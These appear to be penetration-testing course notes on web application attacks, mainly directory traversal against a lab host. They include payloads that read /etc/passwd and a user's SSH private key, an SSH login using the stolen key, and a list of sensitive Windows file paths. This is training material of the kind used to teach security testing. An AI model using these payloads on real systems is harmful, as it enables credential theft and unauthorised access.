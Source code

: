 5. Launching the Final XSS Attack through Curl
![image](https://hackmd.io/_uploads/BkmsWc4Gyg.png)

![image](https://hackmd.io/_uploads/SylsBqVfyl.png)

# Web Application Attacks
## Directory Traversal
- Absolute vs Relative Paths
- Identifying and Exploiting Directory Traversals
```
http://mountaindesserts.com/meteor/index.php?page=admin.php
```
> 1. index.php tells us the web application uses PHP
> 2. URL contains a directory called meteor (subdirectory of the web root.)
> 3. PHP uses `$_GET` to manage variables via a GET request
```
TRY
http://mountaindesserts.com/meteor/index.php?
1. page=../../../../../../../../../etc/passwd
2. page=../../../../../../../../../home/offsec/.ssh/id_rsa
```
When we get the SSH private key, use the private key to connect to the target system via SSH on port 2222.\
Private key file: *dt_key*
```
┌──(chw㉿CHW-kali)-[/]
└─$ ssh -i dt_key -p 2222 offsec@mountaindesserts.com
The authenticity of host '[mountaindesserts.com]:2222 ([192.168.50.16]:2222)' can't be established.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
...
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0644 for '/home/kali/dt_key' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
...

┌──(chw㉿CHW-kali)-[/]
└─$ chmod 400 dt_key

┌──(chw㉿CHW-kali)-[/]
└─$ ssh -i dt_key -p 2222 offsec@mountaindesserts.com
...
offsec@68b68f3eb343:~$ 
```
>[!Important]
> Windows directory traversal\
> `C:\Windows\System32\drivers\etc\hosts`\
> Log:\
> `C:\inetpub\logs\LogFiles\W3SVC1\.`\
> IIS web server:\
> `C:\inetpub\wwwroot\web.config`
